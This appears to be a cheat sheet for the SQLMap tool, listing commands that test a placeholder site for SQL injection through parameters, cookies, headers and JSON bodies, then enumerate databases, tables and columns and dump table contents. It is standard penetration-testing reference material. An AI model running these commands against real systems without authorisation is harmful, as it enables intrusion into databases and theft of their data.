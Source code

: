 **SQLMap Cheat Sheet**

---

### **Basic Usage**

 Run SQLMap on a URL with a parameter 

```bash
sqlmap -u "http://www.example.com/?id=1"
```

---

### **Using cURL Requests**

 Convert cURL request to SQLMap 

```bash
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0' -H 'Accept: image/webp,*/*' --compressed
```

---

### **GET & POST Requests**

 Test GET parameters 

```bash
sqlmap -u "http://www.example.com/?id=1"
```

 Test POST parameters 

```bash
sqlmap -u "http://www.example.com/" --data "uid=1&name=test"
```

 Test specific parameter 

```bash
sqlmap -u "http://www.example.com/" --data "uid=1*&name=test" -p uid
```

---

### **Using Request Files**

 Run SQLMap on a request file 

```bash
sqlmap -r request.txt
```

---

### **Custom Headers & Cookies**

 Use a custom cookie 

```bash
sqlmap -u "http://www.example.com/" --cookie="PHPSESSID=1234567890abcdef"
```

 Use a custom User-Agent 

```bash
sqlmap -u "http://www.example.com/" -H "User-Agent: CustomAgent/1.0"
```

 Randomize User-Agent 

```bash
sqlmap -u "http://www.example.com/" --random-agent
```

---

### **Advanced Testing**

 Test HTTP headers for SQLi 

```bash
sqlmap -u "http://www.example.com/" --cookie="id=1*"
```

 Specify an HTTP method (e.g., PUT) 

```bash
sqlmap -u "http://www.example.com/" --data="id=1" --method PUT
```

---

### **Testing JSON & XML Requests**

 Test JSON data 

```bash
sqlmap -u "http://www.example.com/" --data '{"id":1}'
```

 Test complex request file (JSON/XML) 

```bash
sqlmap -r request.json
```

---

### **Database Enumeration**

 Get database names 

```bash
sqlmap -u "http://www.example.com/?id=1" --dbs
```

 Get tables from a specific database 

```bash
sqlmap -u "http://www.example.com/?id=1" -D db_name --tables
```

 Get columns from a specific table 

```bash
sqlmap -u "http://www.example.com/?id=1" -D db_name -T table_name --columns
```

 Dump data from a table 

```bash
sqlmap -u "http://www.example.com/?id=1" -D db_name -T table_name --dump
```

---

### **Automated Crawling & Testing**

 Automatically crawl and find SQLi vulnerabilities 

```bash
sqlmap -u "http://www.example.com/" --crawl=3
```
